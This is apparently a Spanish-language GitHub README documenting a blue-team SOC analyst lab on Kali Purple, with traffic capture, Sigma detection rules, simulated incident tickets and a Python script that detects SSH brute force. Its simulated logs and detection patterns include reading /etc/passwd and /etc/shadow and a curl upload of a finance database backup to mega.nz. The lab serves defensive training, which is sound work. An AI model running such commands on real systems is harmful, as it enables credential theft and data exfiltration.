




# Kali-Purple-SOC-Ops - Suite Defensiva SOC L1 (Kali Purple)

Este repositorio es la continuación operativa de **Linux-SOC-Labs**. Aquí documento el despliegue y uso de la suite defensiva de **Kali Purple** orientado al rol de **SOC Analyst L1 / Blue Team**. Enfocado en Detect, Protect y Respond.

**Entorno:** Kali Purple en VirtualBox | **Lenguaje:** Shell (Bash) / Python | **Repo base:** [Linux-SOC-Labs](https://github.com/gutierrezsebasg/Linux-SOC-Labs)


---

## Módulo 1: Despliegue, Auditoría y Verificación del Entorno Defensivo [Completado]

### Descripción General
Auditoría de la suite defensiva de Kali Purple, resolución de dependencias faltantes y validación de captura en vivo para dejar la estación L1 operativa para inspección de tráfico.

### Comandos y Herramientas Utilizadas
```bash
which tshark tcpdump ufw # Verifica binarios defensivos disponibles
sudo apt update # Actualiza índices de paquetes
sudo apt install ufw -y # Instalación de firewall para fase Protect
git clone https://github.com/volatilityfoundation/volatility3.git # Despliegue forense para fase Respond
cd volatility3 && python3 vol.py --help # Verifica despliegue de Volatility 3
sudo tshark -i any -c 10 # Verificación de captura en vivo con 10 paquetes
```

### Matriz de Herramientas Auditadas
| Herramienta | Categoría NIST | Estado | Uso SOC L1 |
| :--- | :--- | :--- | :--- |
| **Tshark** | Detect | Verificado | Inspección y filtrado de.pcap |
| **Tcpdump** | Detect | Verificado | Captura rápida en interfaces |
| **Volatility 3** | Respond | Clonado (GitHub) | Análisis forense de memoria RAM |
| **UFW** | Protect | Instalado | Contención por reglas de firewall |

### Evidencia de Análisis

*Captura de 10 paquetes con `tshark -i any -c 10`. Validación de timestamp, IP origen 10.0.2.15, DNS hacia 8.8.8.8 y tráfico TCP 1514/443. Estación L1 operativa.*

### Resultado
Estación Kali Purple L1 operativa. Binarios de Detect y Protect verificados, herramienta de Respond aprovisionada manualmente por conflicto de firmas en repos por defecto.

## Módulo 2: Análisis de Tráfico de Red

### Descripcion General
Se realiza una captura y analisis de trafico HTTP utilizando `tcpdump`, con el fin de revisar el comportamiento de una peticion web y el uso de un User-Agent simulado.

### Comandos Utilizados
```bash
sudo tcpdump -i eth0 -w captura_modulo2.pcap 'tcp port 80' # Captura y guardado de trafico en archivo pcap
curl -A "Nikto-Test-SOC" http://httpbin.org/get # Generacion de peticion HTTP con User-Agent personalizado en segunda pestaña
tcpdump -nn -r captura_modulo2.pcap # Lectura del archivo de captura
tcpdump -nn -r captura_modulo2.pcap 'tcp port 80 and (((ip[20:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)' # Filtrado de paquetes con payload
tcpdump -A -nn -r captura_modulo2.pcap 'tcp port 80' # Inspeccion en texto claro de las cabeceras
```
### Secuencia de Paquetes y Trazabilidad

| Evento / Paquete | Flags / Estado | Descripcion Tecnica |
| :--- | :--- | :--- |
| **Inicio de sesion** | `[S]`, `[S.]`, `[.]` | handshake normal, syn syn-ack ack. |
| **Peticion HTTP** | `[P.]` | Envio de la solicitud `GET` con la cabecera `User-Agent: Nikto-Test-SOC`. |
| **Respuesta** | `[P.]` (200 OK) | Respuesta del servidor entregando el contenido en formato JSON. |
| **Cierre** | `[F.]`, `[.]` | Terminacion ordenada de la sesion TCP. |

### Evidencia de Analisis

Inspeccion del archivo .pcap en terminal. Al final se ejecuto el comando para verificar y validar los 13 paquetes capturados, confirmando el flujo completo de red y la peticion con el User-Agent simulado.

### Resultado
Me costó al principio porque tcpdump no capturaba nada y era un error de la terminal, después con el -A ya pude ver el User-Agent en claro. Se logró capturar, guardar e inspeccionar trafico real y generar el .pcap como evidencia.

## Módulo 3: Análisis de Amenazas, Logs & Reglas Defensivas

### Descripción
En este módulo trabajé en la creación y traducción de reglas de detección utilizando Sigma para estandarizar la lógica de seguridad fuera de un SIEM comercial. Resolviendo problemas de dependencias en Python y validando la efectividad de las reglas mediante la conversión a patrones de búsqueda en terminal.

---

### 1. Configuración del Entorno
Armé un entorno virtual en Python dentro de la carpeta de trabajo para aislar las dependencias de `sigmatools` y evitar conflictos con paquetes descontinuados:

```bash
python3 -m venv venv
source venv/bin/activate
pip install setuptools sigmatools
```
### 2. Traducción de Reglas con Sigmac
Usé `sigmac` para transformar una regla en formato YAML (`regla_prueba.yml`) enfocada en detectar comandos de post-explotación, a un formato ejecutable en terminal:

```bash
sigmac -t grep regla_prueba.yml
```
La herramienta generó el siguiente patrón basado en expresiones regulares:
```bash
grep -P -i '^(?:.*.*cat /etc/passwd.*|.*.*uname -a.*|.*.*id.*)'
```
### 3. Pruebas y Validación de Detección
Para comprobar que la regla funcionaba en un entorno real, creé un archivo de logs de prueba con líneas normales y comandos maliciosos simulados:
```bash
echo -e "usuario ejecutando cat /etc/passwd\noperacion normal\nuname -a ejecutado" > tus_logs.txt
```
Luego ejecuté el filtro generado para validar la detección:
```bash
grep -P -i '^(?:.*.*cat /etc/passwd.*|.*.*uname -a.*|.*.*id.*)' tus_logs.txt
```
### Evidencia

Validación exitosa del entorno, conversión de la regla Sigma y filtrado correcto de comandos sospechosos en terminal.

## Módulo 4: Gestión, Triage y Documentación de Incidentes SOC L1

### Descripción General
En este módulo documenté como hice el triage de 3 alertas simuladas. Clasifiqué cada una entre verdadero positivo y falso positivo, y dejé qué acción tomé en L1 y cuando tocó escalar.

---

### Ticket de Incidente #1: Intentos de Acceso No Autorizado a Archivos Críticos

* **ID del Ticket:** `SOC-INC-2026-001`
* **Fecha/Hora:** `2026-10-18T20:15:00Z` (UTC)
* **Severidad:** `Crítica`
* **Clasificación (Triage):** `Verdadero Positivo`
* **Estado:** `Cerrado` / `Resuelto en L1`

### Resumen del Incidente
El usuario `invitado_01`, sin privilegios, intentó leer `/etc/shadow` usando `sudo cat`. Ese archivo guarda los hashes de contraseñas, así que lo marqué como crítico.

### Evidencia del Log (Raw Data)
```text
2026-10-18T20:15:00Z SOC-PC-01 sudo: invitado_01 : TTY=pts/1 ; PWD=/home/invitado_01 ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
```

### Acciones de Mitigación y Respuesta (L1)
1. Bloqueé la cuenta `invitado_01` de inmediato.
2. Revisé `/etc/sudoers` para ver por qué tenía permisos de sudo.
3. Notifiqué al administrador de sistemas.

---

### Ticket de Incidente #2: Detección y Exfiltración de Datos (Escalamiento)

* **ID del Ticket:** `SOC-INC-2026-002`
* **Fecha/Hora:** `2026-10-18T03:30:00Z` (UTC)
* **Severidad:** `Crítica`
* **Clasificación (Triage):** `Verdadero Positivo`
* **Estado:** `Escalado a Nivel 2 (L2 / Incident Response)`

### Resumen del Incidente
Actividad rara fuera de horario en el servidor financiero. La cuenta `admin_maint` hizo un escaneo completo con `nmap` a la red local y luego subió el backup `db_finance.zip` a un sitio externo con `curl`.

### Evidencia del Log (Raw Data)
```text
2026-10-18T03:30:12Z SOC-FINANCE-01 bash_history: admin_maint : COMMAND=nmap -sS -p 1-65535 192.168.1.0/24
2026-10-18T03:32:45Z SOC-FINANCE-01 bash_history: admin_maint : COMMAND=curl -F "file=@/var/backups/db_finance.zip" https://mega.nz/upload
```

### Acciones de Mitigación y Respuesta (L1 -> L2)
1. **Contención L1:** Aislé el host `SOC-FINANCE-01` de la red para cortar la exfiltración.
2. **Escalamiento:** Lo pasé a L2 porque ya hay exfiltración de datos confidenciales y posible movimiento lateral.
---

### Ticket de Incidente #3: Ejecución de Script de Mantenimiento Legítimo

* **ID del Ticket:** `SOC-INC-2026-003`
* **Fecha/Hora:** `2026-10-18T14:15:00Z` (UTC)
* **Severidad:** `Baja`
* **Clasificación (Triage):** `Falso Positivo / Actividad Legítima`
* **Estado:** `Cerrado`

### Resumen del Incidente
Alerta por ejecución de `actualizar_firmas.ps1` en un equipo de marketing. Validé con TI y era un despliegue autorizado para actualizar firmas corporativas.

### Acciones y Cierre
* Verificado por canal oficial `#it-ops` con ticket de cambio CR-8492.
* Cerrado como falso positivo, sin contención.

## Módulo 5: Playbooks de Respuesta a Incidentes y Automatización con Python (SOAR L1)

En este módulo se integró la teoría de respuesta a incidentes basada en el marco NIST con la automatización práctica utilizando scripts en Python para optimizar las funciones de un Analista SOC Level 1.

### 1. Marco Teórico: Playbook IR-01 (Ataques de Fuerza Bruta SSH) - Estándar NIST SP 800-61

Un Playbook es un conjunto de procedimientos estandarizados que guía a un analista SOC paso a paso para gestionar y mitigar incidentes de forma metódica.

**MITRE ATT&CK:** T1110 - Brute Force

1.  **Preparación:** Configuración de auditoría en `/var/log/auth.log` y verificación de reglas de firewall.
2.  **Detección y Análisis:** Monitoreo y filtrado de eventos repetitivos `Failed password`.
3.  **Contención:** Aislamiento de la IP de origen mediante ufw deny.
4.  **Erradicación y Recuperación:** Auditoría de cuentas, verificación de logins exitosos desde IP maliciosa.
5.  **Post-Incidente:** Registro en ticket y actualización de listas de bloqueo persistentes.

---

### 2. Automatización SOC L1 con Python (`soar_l1_responder.py`)

Se desarrolló un script en Python enfocado en agilizar las fases de detección y contención. Analiza logs, extrae IPs con regex, evalúa umbral y genera el comando de mitigación sin ejecutar bloqueo automático en producción.

### Log de prueba (`prueba_log.txt`)
```text
Oct 18 20:15:01 SOC-PC-01 sshd[1234]: Failed password for root from 192.168.1.105 port 22
Oct 18 20:15:03 SOC-PC-01 sshd[1234]: Failed password for root from 192.168.1.105 port 22
Oct 18 20:15:05 SOC-PC-01 sshd[1234]: Failed password for root from 192.168.1.105 port 22
```

### Código del Script
```python
#!/usr/bin/env python3
import re
import os
from collections import Counter

FAILED_AUTH_PATTERN = r"Failed password for .* from (\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3})"
UMBRAL_ALERTA = 3

def analizar_logs(log_path="prueba_log.txt"):
    if not os.path.exists(log_path):
        print(f"[!] El archivo de log no existe.")
        return
    print(f"[*] Leyendo el archivo de log...")
    with open(log_path, 'r', errors='ignore') as f:
        contenido = f.read()

    ips_encontradas = re.findall(FAILED_AUTH_PATTERN, contenido)
    conteo_ips = Counter(ips_encontradas)

    print("\n[+] Resultados del analisis:")
    for ip, cantidad in conteo_ips.items():
        if cantidad >= UMBRAL_ALERTA:
            print(f"    ALERTA: IP sospechosa: {ip} ({cantidad} intentos fallidos)")
            print(f"    [ACCION SOAR L1]: sudo ufw deny from {ip} to any")
        else:
            print(f"    IP en observacion: {ip} ({cantidad} intentos)")

if __name__ == "__main__":
    analizar_logs()
```

### 3. Evidencia de Ejecución


### Resultado
Playbook IR-01 documentado bajo NIST y automatizado con Python. Se demuestra capacidad de SOAR nivel L1: detección por regex, correlación por conteo y propuesta de contención.
